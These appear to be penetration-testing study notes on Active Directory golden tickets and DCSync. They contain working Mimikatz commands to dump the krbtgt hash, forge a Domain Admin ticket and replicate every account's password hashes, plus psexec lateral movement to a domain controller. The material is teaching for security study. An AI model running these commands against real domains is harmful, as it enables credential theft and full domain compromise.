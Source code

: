 
### Golden Tickets

TGTs are encrypted with pw hash of the user krbtgt on KDC. If we know this hash, we can create our self made custom TGT/golden ticket.

Ex: Create ticket that non privileged user is a part of the Domain Admins Group. 
Login as an account from the Domain Admins group. Then run mimkatz command:
```
lsadump::lsa /patch  
kerberos::purge` # Delete existing Kerberos Tickets
Supply Domain SID with whoami /user
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt #krbtgt options to indicate we are supplying hash
misc::cmd # launch cmd
psexec.exe \\dc01 cmd.exe # lateral movement
```

By creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication. If we were to connect using PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked


### Domain Controller Synchronization

There could me multiple domain controllers, when one asks for an update, it doesn't the update came from another Domain controller, it just checks if SID has proper privs. This means we can rogue update a DC.

```
lsadump::dcsync /user:Administrator # Asking user to sync
```
The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption.

Using the technique above, we can request a replication update with a domain controller and obtain the password hashes of every account in Active Directory without ever logging in to the domain controller